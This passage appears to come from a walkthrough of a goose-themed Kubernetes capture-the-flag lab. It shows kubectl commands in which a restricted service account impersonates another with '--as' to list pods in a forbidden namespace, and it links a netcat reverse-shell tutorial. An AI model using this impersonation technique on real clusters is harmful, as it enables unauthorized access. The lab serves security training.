 This is easier than it first appears. There is another service account in th
garden namespace called "groundskeeper".

```
$ kubectl get sa
NAME            SECRETS   AGE
default         1         21h
goose           1         21h
groundskeeper   1         21h
```
While the goose account has little to no access to anything, it **DOES** have
the ability to [impersonate] the [groundskeeper] with `--as`.

```
$ kubectl get po --as system:serviceaccount:garden:groundskeeper
NAME                            READY   STATUS    RESTARTS   AGE
groundskeeper-99c96696f-kvwqx   1/1     Running   0          21h
```

---

## Todo 2 - Get to the Pub

**Hint:** Let's go to the Winchester, have a nice cold pint, and wait for this
all to blow over.

Todo-1 and Todo-2 are closely related. As the goose you cannot enumerate anything
within the [pub][ns] namespace.

```
$ kubectl get ns
NAME              STATUS   AGE
default           Active   21h
garden            Active   21h
home              Active   21h
kube-node-lease   Active   21h
kube-public       Active   21h
kube-system       Active   21h
model-village     Active   21h
pub               Active   21h

$ kubectl get po -n pub
 Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:garden:goose" cannot list resource "pods" in API group "" in the namespace "pub"
```

However as the groundskeeper...
```
$ kubectl get po --as system:serviceaccount:garden:groundskeeper -n pub
NAME                               READY   STATUS      RESTARTS   AGE
barkeep-7fd8878887-n9r8t           1/1     Running     0          21h
burly-man-56588df9dd-5qzj4         1/1     Running     0          21h
delivery-person-65d5c4fcf7-z8849   1/1     Running     0          21h
old-man-bf794945f-twjn5            1/1     Running     0          21h
woman-0                            1/1     Running     0          21h
woman-1                            1/1     Running     0          21h
```


[kind]: https://kind.sigs.k8s.io
[ns]: manifests/02/00-namespaces.yaml
[goose]: manifests/02/03-goose.yaml
[groundskeeper]: manifests/02/04-groundskeeper.yaml
[bell]: manifests/02/10-bell.yaml
[oldman]: manifests/02/08-old-man.yaml
[barkeep]: manifests/02/05-barkeep.yaml
[burly-man]: manifests/02/06-burly-man.yaml
[impersonate]: https://kubernetes.io/docs/reference/access-authn-authz/authorization/#checking-api-access
[psp]: https://kubernetes.io/docs/concepts/policy/pod-security-policy/
[how-to]: https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/